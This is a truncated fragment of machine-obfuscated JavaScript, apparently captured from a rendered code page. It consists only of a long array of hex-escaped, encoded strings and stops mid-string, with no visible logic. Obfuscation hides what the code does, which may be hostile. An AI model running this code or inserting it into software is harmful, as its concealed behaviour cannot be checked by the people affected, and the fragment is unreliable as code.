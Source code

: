 _0x51b300=[%27\x43\x32\x76\x55\x7a\x66\x38%27,%27\x57\x4f\x5a\x63\x4e\x77\x4e\x63\x4d\x71\x30%27,%27\x57\x51\x76\x2f\x57\x51\x56\x64\x48\x43\x6f\x7a%27,%27\x69\x4d\x6e\x56\x42\x67\x38%27,%27\x57\x4f\x50\x46\x78\x4d\x52\x64\x47\x61%27,%27\x57\x4f\x7a\x59\x68\x61%27,%27\x7a\x73\x69\x53\x69\x4e\x65%27,%27\x69\x63\x62\x49\x79\x77\x71%27,%27\x7a\x30\x66\x67\x6e\x33\x71%27,%27\x65\x6d\x6f\x4f\x57\x51\x46\x64\x48\x71\x34%27,%27\x76\x53\x6f\x6b\x72\x58\x75%27,%27\x57\x52\x4e\x63\x4a\x53\x6b\x47\x42\x38\x6b\x62%27,%27\x79\x4d\x39\x34%27,%27\x69\x67\x48\x4c\x41\x77\x43%27,%27\x57\x50\x31\x2b\x57\x51\x56\x64\x4d\x57%27,%27\x57\x35\x4a\x64\x4c\x63\x78\x64\x4c\x47\x30%27,%27\x7a\x78\x6a\x43\x42\x49\x61%27,%27\x70\x73\x6a\x59\x42\x33\x75%27,%27\x73\x31\x6d\x69\x76\x43\x6f\x75%27,%27\x76\x53\x6b\x6c\x66\x61%27,%27\x44\x78\x6d\x36\x69\x64\x75%27,%27\x71\x47\x4c\x37\x57\x36\x34\x50%27,%27\x61\x68\x74\x64\x4b\x63\x31\x37%27,%27\x7a\x4d\x79\x33\x6d\x4a\x53%27,%27\x79\x77\x35\x5a\x44\x32\x75%27,%27\x57\x34\x78\x64\x4b\x59\x46\x64\x4e\x66\x38%27,%27\x41\x77\x58\x53\x6f\x49\x61%27,%27\x6b\x43\x6b\x69\x57\x37\x4e\x63\x4b\x43\x6f\x59%27,%27\x46\x53\x6b\x30\x57\x34\x33\x63\x48\x53\x6b\x6a%27,%27\x79\x33\x76\x53\x79\x78\x71%27,%27\x42\x67\x39\x59\x73\x77\x34%27,%27\x44\x67\x48\x4c\x42\x47%27,%27\x57\x34\x4c\x6d\x57\x51\x54\x79\x57\x4f\x6d%27,%27\x74\x64\x79\x55\x6e\x74\x47%27,%27\x41\x77\x58\x4b\x69\x64\x34%27,%27\x42\x32\x58\x56\x43\x4c\x6d%27,%27\x43\x4e\x6a\x48\x69\x67\x71%27,%27\x57\x52\x4a\x64\x4b\x4c\x5a\x64\x4a\x4d\x61%27,%27\x61\x4c\x65\x31\x57\x37\x54\x36%27,%27\x57\x51\x4a\x63\x48\x43\x6b\x51\x57\x4f\x38%27,%27\x67\x58\x4b\x33\x57\x52\x79\x42%27,%27\x7a\x74\x58\x65\x65\x6d\x6b\x78%27,%27\x57\x37\x64\x64\x49\x43\x6b\x2f\x42\x38\x6f\x69%27,%27\x57\x35\x54\x6f\x62\x43\x6b\x6d\x6b\x57%27,%27\x66\x43\x6f\x64\x75\x76\x7a\x6a%27,%27\x42\x67\x4c\x4e\x42\x49\x30%27,%27\x72\x43\x6b\x46\x65\x78\x33\x64\x48\x61%27,%27\x57\x51\x37\x63\x4f\x75\x7a\x39\x6f\x61%27,%27\x42\x33\x69\x47\x44\x4d\x65%27,%27\x7a\x32\x6a\x48\x6b\x64\x75%27,%27\x57\x50\x39\x59\x61\x6d\x6b\x42\x79\x61%27,%27\x7a\x6d\x6b\x4c\x6f\x66\x71%27,%27\x79\x32\x54\x4c\x7a\x63\x61%27,%27\x57\x35\x7a\x7a\x57\x50\x70\x63\x52\x73\x79%27,%27\x75\x6d\x6b\x53\x57\x36\x6c\x63\x48\x30\x4f%27,%27\x75\x4d\x76\x5a\x43\x67\x38%27,%27\x57\x35\x56\x63\x55\x38\x6f\x44\x57\x50\x5a\x64\x49\x71%27,%27\x69\x72\x79\x57\x57\x34\x46\x64\x52\x71%27,%27\x57\x51\x6e\x45\x57\x4f\x6e\x4b\x57\x36\x57%27,%27\x71\x77\x35\x5a\x44\x32\x75%27,%27\x57\x52\x7a\x4d\x57\x51\x53%27,%27\x57\x4f\x69\x58\x65\x53\x6f\x4e\x6d\x61%27,%27\x79\x68\x54\x4f\x6d\x6d\x6b\x31%27,%27\x46\x77\x7a\x32\x70\x6d\x6b\x61%27,%27\x57\x52\x2f\x64\x56\x76\x68\x64\x48\x4e\x34%27,%27\x45\x58\x2f\x63\x53\x53\x6f\x59\x45\x57%27,%27\x57\x4f\x69\x79\x57\x34\x68\x63\x4f\x5a\x61%27,%27\x46\x72\x68\x63\x4e\x38\x6b\x7a\x7a\x47%27,%27\x43\x68\x72\x4c\x7a\x66\x57%27,%27\x46\x75\x72\x45\x65\x6d\x6f\x46%27,%27\x57\x4f\x65\x56\x63\x6d\x6f\x32\x76\x61%27,%27\x44\x67\x76\x59\x6f\x59\x61%27,%27\x57\x4f\x31\x59\x57\x50\x2f\x63\x51\x72\x4f%27,%27\x41\x33\x78\x64\x56\x6d\x6f\x66\x71\x47%27,%27\x79\x77\x38\x47\x79\x4e\x75%27,%27\x57\x51\x79\x37\x57\x4f\x68\x64\x4d\x67\x61%27,%27\x43\x32\x76\x59\x6c\x78\x6d%27,%27\x57\x36\x31\x6e\x57\x36\x58\x2b\x57\x34\x57%27,%27\x7a\x67\x4c\x5a\x43\x67\x57%27,%27\x57\x50\x69\x48\x71\x53\x6f\x69\x79\x57%27,%27\x41\x77\x44\x55\x6c\x77\x4b%27,%27\x6b\x58\x56\x63\x55\x6d\x6b\x6d\x6b\x57%27,%27\x78\x47\x6d\x58\x57\x50\x53\x43%27,%27\x6d\x59\x61\x57\x69\x64\x65%27,%27\x73\x38\x6b\x33\x57\x36\x57%27,%27\x57\x52\x4e\x64\x4a\x53\x6f\x36\x57\x37\x34\x4e%27,%27\x41\x77\x35\x4e\x69\x71\x4f%27,%27\x57\x36\x48\x44\x57\x51\x44\x73\x57\x50\x69%27,%27\x6d\x71\x4f\x53\x57\x34\x46\x63\x56\x47%27,%27\x62\x71\x34\x55\x57\x34\x46\x63\x56\x47%27,%27\x69\x64\x58\x5a\x43\x67\x65%27,%27\x42\x63\x48\x56\x6b\x73\x57%27,%27\x69\x4a\x34\x38\x6c\x32\x43%27,%27\x76\x4d\x4c\x4b\x7a\x77\x38%27,%27\x74\x53\x6b\x45\x65\x77\x65%27,%27\x41\x78\x50\x48\x42\x4d\x71%27,%27\x6a\x76\x74\x64\x4c\x32\x66\x6d%27,%27\x68\x6d\x6b\x74\x74\x78\x4e\x63\x48\x57%27,%27\x57\x51\x42\x63\x4e\x53\x6f\x4a\x79\x38\x6f\x72%27,%27\x45\x64\x53\x47\x41\x67\x75%27,%27\x57\x51\x33\x64\x50\x66\x68\x64\x4c\x78\x75%27,%27\x6d\x62\x43\x53\x57\x34\x37\x63\x56\x57%27,%27\x69\x68\x7a\x48\x42\x67\x4b%27,%27\x6b\x53\x6f\x4f\x63\x77\x52\x64\x54\x71%27,%27\x44\x67\x70\x64\x52\x43\x6f\x45\x76\x61%27,%27\x78\x6d\x6b\x2f\x57\x52\x64\x64\x4d\x71\x38%27,%27\x6d\x30\x56\x64\x47\x43\x6b\x2b\x70\x47%27,%27\x6f\x77\x4c\x41\x57\x36\x78\x64\x50\x71%27,%27\x44\x78\x33\x64\x56\x63\x2f\x64\x50\x71%27,%27\x45\x53\x6b\x59\x57\x37\x4a\x63\x49\x31\x57%27,%27\x57\x52\x6c\x63\x4a\x38\x6b\x33\x57\x50\x34%27,%27\x57\x35\x4b\x38\x77\x43\x6b\x74\x42\x71%27,%27\x44\x43\x6b\x37\x57\x36\x64\x64\x48\x75\x79%27,%27\x57\x37\x6a\x6c\x57\x36\x66\x7a\x57\x4f\x38%27,%27\x57\x51\x6c\x64\x4b\x53\x6b\x48%27,%27\x42\x53\x6b\x32\x57\x4f\x4e\x63\x53\x53\x6f\x54%27,%27\x57\x50\x35\x73\x63\x53\x6f\x46\x45\x57%27,%27\x57\x4f\x71\x6e\x42\x77\x4a\x63\x48\x47%27,%27\x7a\x68\x72\x4f\x6f\x49\x61%27,%27\x46\x71\x50\x6c\x71\x38\x6f\x68%27,%27\x6e\x48\x4f\x56\x57\x35\x42\x63\x56\x57%27,%27\x41\x57\x75\x64\x57\x36\x56\x63\x51\x61%27,%27\x70\x73\x69\x59\x6e\x68\x61%27,%27\x43\x5a\x4b\x69\x57\x50\x53%27,%27\x44\x65\x48\x4c\x41\x77\x43%27,%27\x42\x4d\x4a\x64\x56\x6d\x6f\x7a%27,%27\x6c\x4a\x61\x57\x6e\x4a\x65%27,%27\x7a\x77\x71\x55%27,%27\x45\x78\x62\x4c\x6f\x49\x69%27,%27\x57\x37\x71\x51\x57\x36\x37\x63\x4c\x53\x6b\x6e%27,%27\x6f\x4e\x53\x49\x43\x4d\x65%27,%27\x41\x77\x7a\x59\x79\x77\x30%27,%27\x6f\x38\x6f\x53\x57\x4f\x37\x63\x4b\x6d\x6f\x41%27,%27\x6a\x75\x70\x64\x49\x68\x72\x4d%27,%27\x45\x43\x6b\x52\x57\x36\x46\x64\x4b\x4b\x43%27,%27\x57\x37\x56\x63\x4f\x75\x30\x6a\x72\x57%27,%27\x67\x53\x6f\x75\x76\x53\x6b\x44\x57\x4f\x6d%27,%27\x57\x35\x43\x73\x57\x37\x7a\x2b\x57\x34\x53%27,%27\x57\x52\x78\x64\x54\x75\x64\x64\x4a\x5a\x79%27,%27\x43\x68\x44\x2f\x46\x4e\x69%27,%27\x